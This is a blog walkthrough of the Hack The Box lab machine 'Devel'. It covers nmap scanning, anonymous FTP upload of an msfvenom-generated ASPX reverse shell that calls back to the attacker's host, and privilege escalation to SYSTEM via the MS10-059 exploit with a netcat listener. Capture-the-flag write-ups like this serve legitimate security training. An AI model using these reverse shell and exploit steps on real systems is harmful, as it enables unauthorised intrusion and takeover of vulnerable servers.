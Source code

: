 ```yaml
---
layout: post
title: "HTB-Devel"
date: 2020-02-16 12:13:55 +0000
categories: HTB-Walkthrough
---
```


![devel](/assets/img/devel.png)

Hi, lets get stuck in...

Im settling on a good 'less intrusive' nmap command to start enumeration of a machine with...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.5 |tee -a dev.txt`

Often depending on the results, ill run `-sC` or `--script=vuln` either on specific ports, or the default range.

```

Nmap scan report for 10.10.10.5
Host is up (0.092s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

In this case, its not really necessary, we can just manually test the target's ftp port to see if it will allow anonymous login.

`ftp 10.10.10.5` then use the username `anonymous` with any password like `aosdidhf`, and we got access.

A test to upload random text.txt file is successful, so we can potentially upload a reverse-shell of some sort to get a command shell on the target.

############################

The website on port 80 displays the Welcome page we found in the ftp directory...
The target is running an aspnet client, which means if we upload an evil.aspx file, we can browse to it on port 80 to trigger it.

So lets first use MSFvenom to craft an evil.aspx reverse-shell file...
`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.19 lport=443 -f aspx -o evil.aspx`

In main ftp (root directory) `put evil.aspx`

Now just browse to `http://10.10.10.5/evil.aspx` to execute.

##################################

So we got a windows cli shell, and we need to escalate our privilages to get ntauthority/system to enable us to read root.txt in the Administrator's Desktop.

Now's a handy time to get familiarized with `windows-exploit-suggester.py`. 

First we need to do is run the command `systeminfo` then copy'n'paste the results onto our kali machine
into a text-file, in this case called sysinfo.txt.

```

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          29/1/2020, 5:13:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 720 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.546 MB
Virtual Memory: In Use:    501 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

```

Read the python program first for instructions ...

```

# USAGE
,# 
# update the database
#
# $ ./windows-exploit-suggester.py --update
# [*] initiating...
# [*] successfully requested base url
# [*] scraped ms download url
# [+] writing to file 2014-06-06-mssb.xlsx
# [*] done
#
# install dependencies
#
# (install python-xlrd, $ pip install xlrd --upgrade)
#
# feed it "systeminfo" input, and point it to the microsoft database
#
# $ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

```

The result of following these instructions, is a list of potential methods of privilage escalation.

In this case we chose ms10-059 (chimichurri.exe)

Upload it again via ftp. Then transfer it to a place we can execute it.
I often create a directory in C: to work from (which I can remove later)
`mkdir c:\boo`

Before we execute the evil.exe, lets get a listener running on kali to catch the shell...
`nc -nlvp 999`

Then on the target run...
`c:\boo\evil.exe 10.10.14.19 999`


```

root@kali:~/HTB/retired/devel# nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\boo>whoami
whoami
nt authority\system

```

From here it is trivial to navigate to the user and Admin Desktops to get the user.txt.txt and root.txt.txt files.
read them with the `type` command.
eg.`type root.txt.txt`


The scenario is a simple one, but still encountered 'in the wild', and the widows-exploit-suggester.py' is definately a handy tool to have in your armoury.

####################################################################

